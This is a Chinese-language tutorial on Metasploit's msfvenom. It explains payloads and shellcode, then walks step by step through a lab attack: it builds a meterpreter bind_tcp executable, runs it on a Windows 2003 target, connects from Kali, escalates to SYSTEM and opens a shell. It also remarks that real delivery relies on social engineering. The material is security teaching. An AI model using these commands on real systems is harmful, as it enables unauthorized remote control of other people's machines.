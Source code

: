 
# 0X00 msfvenom 命令简介
msfvenom是payload产生器，也是shellcode代码生成器<br />Payload，中文“有效载荷”，指成功exploit之后，真正在目标系统执行的代码或指令。<br />Shellcode，简单翻译“shell代码”，是Payload的一种，由于其建立正向/反向shell而得名

整个字节流一般包含两个部分：

1. 一个包含部分代码的字节序列，被送入目标计算机执行，辅助攻击机获得控制权，比如打开目标计算机上的端口或者建立一个通信信道。
2. 一个用于实现在目标主机上运行某个应用程序如cmd或者计算器（常用于poc--概念验证）等。

一个攻击代码发送的字节序列往往同时包含payload和shellcode代码。


# 0X01 msfvenom 命令的使用
1、生成可执行文件类型的payload
```
root@kali222:~# msfvenom    ---查看选项参数
Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
......此处省略
```

```
root@kali222:~# msfvenom -l payloads  --查看所有的payload

Framework Payloads (546 total) [--payload <value>]


    Name                                                Description
    ----                                                -----------
    aix/ppc/shell_bind_tcp                              Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                             Spawn a shell on an established connection
    aix/ppc/shell_interact                              Simply execve /bin/sh
......此处省略
```


# 0X02 攻击实例

## 环境准备
win2003（192.168.1.64）作为靶机<br />kali（192.168.1.149）作为攻击机。

kali上侦听payload的运行，通过win2003上的payload的运行，反弹到kali.


## 实例

1. 在kali根目录生成payload111.exe文件
```
root@kali222:~# msfvenom -p windows/meterpreter/bind_tcp lport=5000 -f exe -o /root/payload111.exe
```
<br />![](https://img-blog.csdnimg.cn/20200415142543909.png#crop=0&crop=0&crop=1&crop=1&id=KlDxc&originHeight=167&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2. 将文件拷贝到win2003（实际中利用社工进行诱导运行）<br />![](https://img-blog.csdnimg.cn/2020041514322787.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=prwRP&originHeight=226&originWidth=393&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3. 打开msfconsole
```
root@kali222:~# service postgresql restart
root@kali222:~# msfdb init
root@kali222:~# msfconsole
```
<br />![](https://img-blog.csdnimg.cn/20200415142733345.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=pWYdx&originHeight=437&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4. 设置直连型payload
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp    ---设置直连型payload
msf5 exploit(multi/handler) > set lport 5000     ---设置本地端口与命令中出现的端口号相同
msf5 exploit(multi/handler) > set rhost 192.168.1.64   ---由于是直连类型，这里设置的是靶机的IP
```
<br />![](https://img-blog.csdnimg.cn/20200415142912439.png#crop=0&crop=0&crop=1&crop=1&id=DlPoD&originHeight=156&originWidth=729&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5. 等待远程的payload先运行再执行exploit
```
msf5 exploit(multi/handler) > exploit
```
<br />![](https://img-blog.csdnimg.cn/20200415143314463.png#crop=0&crop=0&crop=1&crop=1&id=dMRnB&originHeight=151&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

6. 提升权限
```
meterpreter > use priv   ---提升特权
meterpreter > getsystem   ---取得系统级权限
```
<br />![](https://img-blog.csdnimg.cn/20200415143415474.png#crop=0&crop=0&crop=1&crop=1&id=eQwN5&originHeight=104&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

7. 进行shell连接
```
meterpreter > shell
```
<br />![](https://img-blog.csdnimg.cn/20200415143509593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ernGq&originHeight=218&originWidth=723&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
